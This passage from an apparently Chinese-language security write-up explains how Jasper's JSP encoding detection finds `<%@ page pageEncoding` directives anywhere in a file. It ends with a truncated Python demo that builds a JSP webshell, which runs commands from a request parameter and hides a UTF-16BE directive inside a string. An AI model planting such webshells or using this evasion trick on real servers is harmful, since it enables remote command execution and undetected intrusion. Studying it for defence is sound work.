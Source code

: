 #### [任意放置的 jspReader.matches 与%@](#toc_jspreadermatches)

刚刚我们只提到了这两个标签的利用具有编码的局限性，然而如果你再仔细看我们后面提出的两种新的编码利用会发现在函数`getPageEncodingForJspSyntax`中，它通过 while 循环不断往后查找符号`<`，之后在调用`jspReader.matches`寻找`%@`或`jsp:directive.`

```bash
private String getPageEncodingForJspSyntax(JspReader jspReader,
            Mark startMark)
    throws JasperException {

        xxxx

        while (true) {
            if (jspReader.skipUntil("<") == null) {
                break;
            }
                xxxx
            boolean isDirective = jspReader.matches("%@");
            if (isDirective) {
                jspReader.skipSpaces();
            }
            else {
                isDirective = jspReader.matches("jsp:directive.");
            }
            if (!isDirective) {
                continue;
            }

           xxxx
    }
```

因此从这里我们可以看出`<jsp:directive.`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

[![10.png](assets/1698894037-408bcfc586236cf1b6fcfe5692d1c48a.png)](https://storage.tttang.com/media/attachment/2022/11/23/e5869b44-7d86-4c49-80ed-5dfe89babf76.png)

测试 demo

```bash
a0 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a2 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test2.jsp","wb") as f:
```